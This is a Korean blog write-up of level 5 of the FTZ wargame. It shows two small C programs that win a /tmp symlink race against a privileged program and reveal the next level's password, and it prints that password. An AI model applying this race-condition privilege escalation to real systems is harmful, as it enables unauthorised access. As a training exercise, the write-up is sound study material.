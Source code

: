 ```yaml
---
title: FTZ 5번 Write-up
date: 2017-8-22 11:09:00
categories: FTZ
---
```


## FTZ 5번

이건 딱봐도 풀기 싫게 생겼다.

    [level5@ftz level5]$ ls
    hint  public_html  tmp
    [level5@ftz level5]$ cat hint
    
    /usr/bin/level5 프로그램은 /tmp 디렉토리에
    level5.tmp 라는 이름의 임시파일을 생성한다.
    
    이를 이용하여 level6의 권한을 얻어라.

`/usr/bin/level5`의 프로그램은 실행중일때만 `level5.tmp`라는 임시파일을 생성하고, 종료될경우, 임시파일은 바로 삭제된다.

    [level5@ftz level5]$ cd /tmp
    [level5@ftz tmp]$ ls
    mysql.sock
    [level5@ftz tmp]$ vi script.c
    int main(){
            int i;
            for(i=0;i<200000;i++){
                    system("/usr/bin/level5 &");
            }
    }
    [level5@ftz tmp]$ gcc -o script script.c

	[level5@ftz tmp]$ vi script1.c
    #include<stdio.h>
    int main(){
            int i=0;
            system("touch /tmp/level5.code");
            for(i=0;i<200;i++){
                    system("ln -s /tmp/level5.code /tmp/level5.tmp 2>/dev/null");
            }
            system("cat /tmp/level5.code");
    }
    [level5@ftz tmp]$ gcc -o script1 script1.c

이렇게 `/usr/bin/level5`를 계속 실행시키는 script 프로그램과 `/usr/bin/level5`가 실행되는 동안 `/tmp/level5.tm`p에 심볼릭 링크를 걸어주고, 마지막에 임시파일, 즉 플래그를 출력하도록 하는 script1 프로그램을 짜 보았습니다.

    [level5@ftz tmp]$ ./script &
    [1] 27505

`./script` 뒤에 `&`을 붙이면 백그라운드에서 실행하도록 해준다.
아래줄에 있는 5자리 수는 프로세스 번호로, `kill 27505`를 입력하면 script프로그램을 종료할 수 있습니다.

    [level5@ftz tmp]$ ./script1
    next password : what the hell
나왔네요.

